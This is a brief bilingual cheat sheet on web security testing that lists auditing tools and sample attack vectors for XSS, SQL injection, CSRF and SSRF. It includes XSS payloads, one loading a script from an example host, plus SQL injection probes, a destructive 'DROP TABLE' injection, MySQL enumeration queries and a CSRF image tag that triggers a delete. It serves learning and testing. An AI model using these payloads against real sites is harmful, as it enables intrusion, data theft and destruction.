 
## Useful Auditing Tools:
`burpsuite` to capture and modify packets (purchase pro version if you like auto scannning :p)

`nmap ncat` to scan and test ports

`whois` and `theharvester` to collect OSINT data

`python` to create scripts

`sqlmap` to detect and exploit SQL Injection

and of course `F12(Developer tools)` in Browser(very useful!)
### #別當 script kiddy!!


## 常見漏洞

### XSS(Cross Site Scripting)

#### Attacking Vectors
##### 基本
`<script src = www.example.com/xss.js></script>`
 
 or
 
 `<script>alert(1)</script>`
##### Advanced Vector
`<a id=x tabindex=1 onactivate=alert(1)></a>`

`<body onafterprint=alert(1)>`

`<a id=x tabindex=1 onbeforeactivate=alert(1)></a>`

`<audio src/onerror=alert(1)>`

`<body onpageshow=alert(1)>`

`<body onresize=alert(1)`

and more on [portswigger.net](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
### SQL 注入

#### Attacking Vectors
##### 檢查是否有漏洞
Common vectors like

`'` and `ORDER BY 1`

Blind-Injections to check without debug info

`' AND 1=1 ` (true) `' AND 1=2 ` (false)

Timing attack

`BENCHMARK(878787878787, ('hey', 'you'))`

##### 註解掉後面的query
`DROP TABLE1; --`

or

`DROP TABLE1; #`
##### Login bypass
use `'` and `--` 來閉合引號和註解
##### Common Vectors(MySQL for example)
`SELECT user();`

`SELECT user FROM mysql.user;`

`SELECT distinct(db) FROM mysql.db `

`SELECT schema_name FROM information_schema.schemata; (for MySQL >= v5.0)`

`SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’`

`SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’`

`SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = ‘username’`

##### !No `information_schema` in MySQL < 5!
### CSRF (Cross-Site-Request-Forgery)
#### Attacking Vectors
將siteB的元素注入到siteA:

`<img src = http://www.siteb.com/blog.php?action=delete></img>`

### SSRF (Server-Side-Request-Forgery)
很像csrf，但是用來訪問內網的server



